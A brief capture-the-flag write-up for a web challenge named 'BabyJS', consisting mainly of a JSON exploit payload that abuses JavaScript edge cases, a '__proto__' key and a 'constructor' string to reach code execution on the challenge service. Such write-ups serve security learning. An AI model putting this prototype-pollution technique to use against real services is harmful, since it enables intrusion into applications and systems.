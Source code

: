 # BabyJS
**Category:** Web  
**Points:** 241  
**Solves:** 51  

## Description
Are you a JavaScript pro? We got a test for you to prove it!

## Exploit
Formatted for better readability. The service expects it in one line.
```json
{
    "a": -0,
    "b": 0,
    "c": "NaN",
    "d": "NaN",
    "e": -1,
    "f": [],
    "g": null,
    "h": 10e308,
    "i": 3,
    "j": 10e308,
    "__proto__": 1,
    "y": "constructor",
    "z": "return console.log"
}
```

## Writeups
https://ctftime.org/task/13520
